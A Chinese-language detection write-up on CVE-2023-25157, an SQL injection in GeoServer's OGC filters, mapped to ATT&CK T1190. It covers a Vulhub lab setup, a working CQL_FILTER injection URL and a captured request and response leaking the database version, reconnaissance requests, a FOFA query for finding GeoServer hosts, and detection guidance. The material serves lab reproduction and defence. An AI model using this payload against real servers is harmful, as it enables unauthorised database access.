

# T1190-CVE-2023-25157-GeoServer OGC Filter SQL注入漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例
GeoServer 是OpenGIS Web服务器规范的J2EE实现，利用GeoServer可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在版本2.22.1和2.21.4及以前，多个OGC表达式中均存在SQL注入漏洞。

参考链接：
- https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
- https://github.com/advisories/GHSA-7g5f-wrx8-5ccf

## 检测日志

HTTP.log

## 测试复现

### 漏洞环境

FOFA: app = "GeoServer"

执行如下命令启动一个SeoServer 2.22.1：

```
docker-compose up -d
```
环境启动后，访问即可查看到GeoServer的首页。http://your-ip:8080/geoserver

## 漏洞复现

在利用漏洞前，需要目标服务器中存在类型是PostGIS的数据空间（datastore）和工作空间（workspace）。在Vulhub中，已经包含满足条件的工作空间，其信息如下：

- 工作区名称：vulhub
- 数据存储名称：pg
- 要素类型（表）名称：example
- 要素类型的属性之一：name

利用这些已知参数，发送如下URL即可触发SQL注入漏洞：

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```



获取GeoServer中WFS服务的图层信息（包括支持的 WFS 版本、支持的数据格式、支持的查询方式、支持的空间参考系统等）

```
GET /geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities HTTP/1.1
```

获取某个图层的属性名称

```
GET /geoserver/wfs?request=DescribeFeatureType&version=2.0.0&service=WFS&outputFormat=application/json&typeName=图层名称 HTTP/1.1
```

## 测试留痕

```yml
GET /geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith(name%2C%27x%27%27)+%3D+true+and+1%3D(SELECT+CAST+((SELECT+version())+AS+integer))+--+%27)+%3D+true HTTP/1.1
Host: 192.168.101.129:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
X-Frame-Options: SAMEORIGIN
Content-Type: text/xml;charset=utf-8
Content-Encoding: gzip
Transfer-Encoding: chunked
Server: Jetty(9.4.48.v20220622)

<?xml version="1.0" ?>
<ServiceExceptionReport
   version="1.2.0"
   xmlns="http://www.opengis.net/ogc"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.opengis.net/ogc http://schemas.opengis.net/wfs/1.0.0/OGC-exception.xsd">
   <ServiceException>
      java.lang.RuntimeException: java.io.IOException
java.io.IOExceptionERROR: invalid input syntax for type integer: &quot;PostgreSQL 14.8 on x86_64-pc-linux-musl, compiled by gcc (Alpine 12.2.1_git20220924-r10) 12.2.1 20220924, 64-bit&quot;
</ServiceException></ServiceExceptionReport>
```

流量包见同目录下pcap文件。

## 检测规则/思路
对请求路径及返回内容进行重点关注。

研判分析要点：
- 请求方法GET
- 请求url路径及路径中是否包含SQL语句
- 状态码200，结合返回body信息，判断攻击是否成功。

辅助判断：上下文关联分析，是否存在获取GeoServer中WFS服务的图层信息、获取某个图层的属性名称等行为

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

GeoServer OGC Filter SQL注入漏洞（CVE-2023-25157）

<https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2023-25157/README.zh-cn.md>

GeoServer SQL注入漏洞复现（CVE-2023-25157）

<https://blog.csdn.net/qq_41904294/article/details/131117123>

GeoServer SQL 注入漏洞分析（CVE-2023-25157）

<https://www.freebuf.com/vuls/371011.html>
